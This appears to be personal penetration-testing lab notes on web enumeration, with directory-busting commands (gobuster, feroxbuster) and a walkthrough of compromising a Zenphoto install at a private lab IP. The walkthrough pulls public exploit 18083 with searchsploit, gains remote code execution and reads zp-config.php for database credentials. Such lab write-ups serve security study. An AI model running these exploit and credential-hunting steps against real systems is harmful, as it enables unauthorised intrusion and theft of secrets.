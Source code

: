 
# Mapping
**.robot:**
```

```
**.svn:**
```

```
**.DS_STORE**
```

```

# Directory Busting
```
gobuster dir -u ${ip} -w /usr/share/wordlists/dirb/common.txt -t 5
```
```
dirbuster
```
```
feroxbuster -u http://host.domain.tld:80/ -x php -C 404 -A --wordlist '/usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt' -B --auto-tune
```

Found test:![](../attachment/6872fe7c8dfd9da57eb94bcaebe26f76.png)
Now accessing it:
![](../attachment/13393a6d0fe9c084ef3e9c3a8d6e9860.png)
We have zenphoto.

We can search for exploits:
![](../attachment/e959edb095b8a1c3a146cc691e96acf6.png)
We have a RCE exploit.

Trying it:
```
searchsploit -m php/webapps/18083.php
```
```
php 18083.php
```
![](../attachment/f10628b1ddc9d4b4081b7c20ec6a253a.png)
```
php 18083.php 192.168.212.41 /test/
```
![](../attachment/23934a57f43a81987b83b1747b647060.png)
We have code execution.

Now we can look for files in the directory.
![](../attachment/f91f093d8a470d57f65570818334bc16.png)
Now to find the file:
```
find / -type f -name "zp-config.php" 2>/dev/null
```
![](../attachment/6978c728e5e24a1e8d0aa9e8ca0187b0.png)
We can read it:
![](../attachment/095fb8659f4b13274c22e545204f2cdc.png)
We have some info on the database